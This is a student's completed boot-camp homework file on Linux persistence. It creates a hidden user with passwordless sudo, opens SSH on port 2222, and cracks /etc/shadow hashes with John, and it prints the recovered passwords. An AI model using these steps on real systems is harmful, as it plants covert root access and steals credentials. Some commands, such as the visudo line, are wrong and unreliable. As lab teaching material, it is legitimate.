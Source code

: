 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here` - **_`useradd -rMo -u 600 sysd`_**

2. Give your secret user a password: 
    - `Your solution command here` - **_`passwd sysd`_**

3. Give your secret user a system UID < 1000:
    - `Your solution command here` - **_`usermod -u 600 sysd`_**

4. Give your secret user the same GID:
   - `Your solution command here` - **_`groupmod -g 600 sysd`_**  
   ![System_ID](/Images/sysd.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  `Your solution command here` - **_`visudo sysd ALL=(ALL:ALL) NOPASSWD:ALL`_**


6. Test that `sudo` access works without your password:

   - `Your bash commands here` - **_`cat /etc/sudoers | grep -i sysd | awk '{ print $3 }'`_**  
    ![Root_Access](/Images/sysd-1.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `Your bash commands here` - **_`sudo nano /etc/ssh/sshd_config`_**
    
**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here` - systemctl restart ssh.service

2. Exit the `root` account:
    - `Your solution command here` - exit  

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here` - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - `Your solution command here` - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here` -  ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:  
                **_unshadow /etc/passwd /etc/shadow > passwords.txt_** 

    - `Your solution command here` - john passwords.txt
    ```
    Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
    
    Press 'q' or Ctrl-C to abort, almost any other key for status  
    computer	(stallman)  
    freedom	(babbage)  
    trustno1	(mitnik)  
    dragon	(lovelace)  
    lakers		(turing)  
    passw0rd	(sysadmin)  
    Goodluck!	(student)  
    p4ssw0rd	(sysd)
    ```  

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

---
  
## :sunglasses: `Ketan Vithal Patel` :sunglasses:  


### `Friday, April 30, 2021 -- UofT Cybersecurity - Boot Camp`
#### :rose::rose:`Jai Shri Swaminarayan`:rose::rose:
```
હરે કૃષ્ણ હરે કૃષ્ણ, કૃષ્ણ કૃષ્ણ હરે હરે |  Hare Krishna Hare Krishna, Krishna Krishna Hare Hare |
હરે રામ હરે રામ, રામ રામ હરે હરે ||   Hare Ram Hare Ram, Ram Ram Hare Hare ||
```
---  
